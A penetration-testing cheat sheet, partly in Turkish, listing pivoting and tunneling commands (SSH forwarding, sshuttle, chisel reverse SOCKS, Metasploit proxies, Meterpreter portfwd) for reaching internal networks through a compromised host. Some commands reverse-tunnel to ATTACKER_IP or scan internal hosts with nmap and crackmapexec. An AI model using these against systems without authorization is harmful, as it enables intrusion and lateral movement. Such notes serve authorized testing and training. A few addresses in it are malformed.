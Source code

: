 # Port Forwarding / SSH Tunneling

## SSH

<pre><code># RDP'yi dahili ana bilgisayardan 1337 numaralı portunu saldırı makinesine iletin.
ssh -L &#x3C;LocalHost>:&#x3C;Port>:&#x3C;IP-To-Forward-From>:&#x3C;Port> &#x3C;User>@&#x3C;IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa

# Uzak bağlantı noktası 80'i yerel bağlantı noktası 80'e yönlendirme.
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
<strong>ssh atena@10.10.72.69 -L 80:127.0.0.1:80
</strong>ssh &#x3C;User>@&#x3C;IP> -L &#x3C;Local-Port>127.0.0.1&#x3C;Remote-Port>
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

# Dynamic SSH Port Forwarding
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -i &#x3C;id_rsa> &#x3C;User>@&#x3C;IP> -D &#x3C;Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080
ssh -D 127.0.0.1:8080 user@SSH_SERVER</code></pre>

#### SSH: Remote Port Forwarding

```
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

## Shuttle

```
# Şifre ile kimlik doğrulama.
sshuttle -r <User>@<Target-IP> <Target-Subnet> -x <Target-IP>
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5

# Anahtarla kimlik doğrulaması yapma.
sshuttle -r <User>@<IP> --ssh-cmd "<Command>" <Target Subnet> -x <Exclude IP>
sshuttle -r root@10.200.48.200 --ssh-cmd "ssh -i id_rsa" 10.200.48.0/24 -x 10.200.48.200
```

## Chisel

```
# Attacking Machine
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &

# On Target Machine
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &

# Ardından, güvenliği ihlal edilmiş ana bilgisayardan dahili ağları taramak için Proxchains' kullanın.
# Then use Proxychains to scan internal networks from the compromised host.
```

## Metasploit with Proxychains

/etc/proxychains4.conf içindeki son satırı şu değerle değiştirin: socks5 127.0.0.1 1080

Ardından aşağıdaki Metasploit modülünü kullanın:

Modül seçeneklerini aşağıdaki gibi ayarlayın (Default):

```
Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)
```

Ardınan, önce proxycains komutuyla komutlar başlatarak uygulamaları proxychains kullanmaya zorlayabilirisniz.

```
proxychains nmap <IP> -sT -p 1-10000 -sV -v
proxychains crackmapexec smb 10.10.10.100.5 -u '' -p ''
proxychains ssh <user>@<IP>
proxychains telnet <IP>
```

### Double Pivot

```
# /etc/proxychains.conf
# Ensure dynamic_chain is uncommented

dynamic_chain
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks5  127.0.0.1 1080  # First Pivot
socks5  127.0.0.1 1081  # Second Pivot
```

## Port Forward

Meterpreter, dosya paylaşımlarına ve web sunucularına erişim için ileriye dönük olarak kullanılabilir.

```
portfwd add -l <LocalPort> -p <RemotePort> -r <TargetIP>
portfwd add -l 3333 -p 3389 -r 10.10.10.5
```

Esasen yukarıdaki örnek komuta göre, uzak bağlantı noktasına ulaşmak için yerel bağlantı noktamızdaki RDP'ye bağlanabiliriz.

```
rdesktop 127.0.0.1:3333
```

### Proxy Tunnel

```
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```

## xFreeRDP

Doğrudan bir pivoting tekniği olmasa da, ana bilgisayarın dosya sistemini paylaşmak için xFreeRDP'yi kullanmak, saldırgana, pivot işlemine daha fazla yardımcı olmak için dosyaları sistemler arasında taşımak için kolay bir yol sağlayabilir.



```bash
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

##
